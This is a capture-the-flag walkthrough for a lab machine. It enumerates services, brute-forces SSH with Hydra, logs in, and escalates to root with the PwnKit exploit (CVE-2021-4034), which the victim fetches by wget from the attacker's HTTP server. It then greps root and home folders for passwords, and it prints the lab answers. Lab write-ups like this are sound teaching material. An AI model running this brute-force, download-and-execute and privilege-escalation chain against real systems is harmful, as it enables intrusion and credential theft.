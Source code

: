 ### Find the services exposed by the machine
```BASH
sudo nmap -sV 10.10.26.17
```
![image](https://github.com/user-attachments/assets/c12abb48-bb66-4ff5-962a-397cdf2aab0a)

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the hidden directory on the web server?
```BASH
gobuster dir -u "http://10.10.26.17/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/a6679aca-3502-417e-8011-9aee2b27c060)

<pre>development</pre>

<span style="line-height:0.5;">&nbsp;</span>

### User brute-forcing to find the username & password
From the Nmap scan, you can see that port 8080 is open. The server is running `Apache Tomcat/9.0.7` and the URL `/manager/html` is accessible.

![image](https://github.com/user-attachments/assets/798851bc-dac7-4bc1-81b9-e39575c0290e)  

The fact that `http://10.10.26.17:8080/manager/html` prompts for authentication confirms that the Tomcat Manager interface is enabled.

<span style="line-height:0.5;">&nbsp;</span>

Run enum4linux:
```BASH
enum4linux -a 10.10.26.17
```
![image](https://github.com/user-attachments/assets/6cb0e81f-98cb-4770-89ea-71451c420cb5)  

<span style="line-height:0.5;">&nbsp;</span>

Run Hydra:
```BASH
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.26.17 ssh
```

<span style="line-height:0.5;">&nbsp;</span>

What is the username? What is the password?
<pre>jan</pre>
<pre>armando</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service do you use to access the server?
<pre>SSH</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the other user you found?
<pre>kay</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the final password you obtain?
Now you can log in as jan.
```BASH
ssh jan@10.10.134.179
```
From the screenshot, you can confirm that jan has no sudo privileges at all. This user is completely blocked from escalating via sudo.

![image](https://github.com/user-attachments/assets/9c37f154-1877-47a0-a92b-9c9d20941fad)
![image](https://github.com/user-attachments/assets/27020f18-8c28-4466-ae1e-35751639e86e)

Since vim didn't work for privesc, go back to your list of SUID binaries:
```BASH
ls -l /usr/bin/pkexec
```

![image](https://github.com/user-attachments/assets/a774ea6d-3c95-474f-8f24-c3682d455fac)  

`pkexec` is SUID and dated Jan 2016. This version is vulnerable to [CVE-2021-4034 (PwnKit)](https://ubuntu.com/security/cve-2021-4034).

### On the attacker's machine
Download, compile, and zip the exploit:
```BASH
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
tar czf pwnkit.tar.gz CVE-2021-4034/
```
![image](https://github.com/user-attachments/assets/057c5997-9621-43fb-a172-2f5cdc2f6ffa)

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```
![image](https://github.com/user-attachments/assets/80bf24ec-2969-4f24-9827-f72c39d9344c)

### On the victim machine:
```BASH
cd /tmp
wget http://10.10.151.188:9000/pwnkit.tar.gz
tar xzf pwnkit.tar.gz
cd CVE-2021-4034
./cve-2021-4034
```
![image](https://github.com/user-attachments/assets/94ada5d6-5561-4037-ade8-6e8372c83933)

Run this command to search through all files in `/root` and `/home`, looking for anything that contains: `pass` or `flag`.
```BASH
grep -rE "pass|flag" /root /home 2>/dev/null
```
![image](https://github.com/user-attachments/assets/66de4a59-218f-4e8d-9c7e-e50c15a8daf6)

At the bottom, you’ll see: `/home/kay/pass.bak:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`. Final password:
<pre>heresareallystrongpasswordthatfollowsthepasswordpolicy$$</pre>


